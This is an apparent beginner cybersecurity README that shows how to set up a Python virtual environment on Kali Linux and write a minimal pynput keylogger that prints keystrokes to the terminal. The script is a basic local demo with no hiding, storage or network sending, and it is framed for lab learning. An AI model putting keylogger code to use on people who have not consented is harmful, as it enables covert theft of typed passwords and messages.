

# Keylogger Basics – Beginner Cybersecurity Project

This project demonstrates how to build a **simple Python keylogger** using `pynput`.  
It runs on **Kali Linux** in a **safe, virtualized lab environment** and captures keystrokes for educational purposes.

⚠️ **Educational Use Only** – Do not use this on any system without explicit permission.

---

## Step 0: Set Up Python Environment

```bash
sudo apt update
sudo apt install python3-pip
pip3 install pynput
```


You're seeing this error because Kali Linux has locked down system-wide Python package installations to prevent breaking your OS (per PEP 668).

 Solution: Use a Virtual Environment (Safe & Recommended)
 
Instead of installing pynput globally, create a virtual environment:

# 1. Install venv (if not installed yet)
```bash
sudo apt install python3-venv
```
# 2. Create a new virtual environment
```
python3 -m venv myenv
```
# 3. Activate the environment
```
source myenv/bin/activate
```
# 4. Install pynput safely inside it
```
pip install pynput
```



DONE.....

##  Step 3: Write the Keylogger Script

Create a file named `keylogger.py` and paste the following code:

```python
from pynput import keyboard

def on_press(key):
    try:
        print(f"Key pressed: {key.char}")
    except AttributeError:
        print(f"Special key pressed: {key}")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

  Screenshot:  


##Step 4: Run the Keylogger

From the terminal (while still in the virtual environment), run:

```bash
python3 keylogger.py
```

Now type something to see the output in real time.

 Screenshot:  


## Step 5: Deactivate the Environment

After testing, deactivate the virtual environment:

```bash
deactivate
```

---

##  What You Learned

- How to use Python virtual environments securely.
- How to install and use `pynput` to capture keystrokes.
- How keyloggers function at a basic level.

---

##  Notes

- Run only in a controlled VM environment like **Kali Linux**.
- Don’t use keyloggers on live or production systems.

 (educational use only).
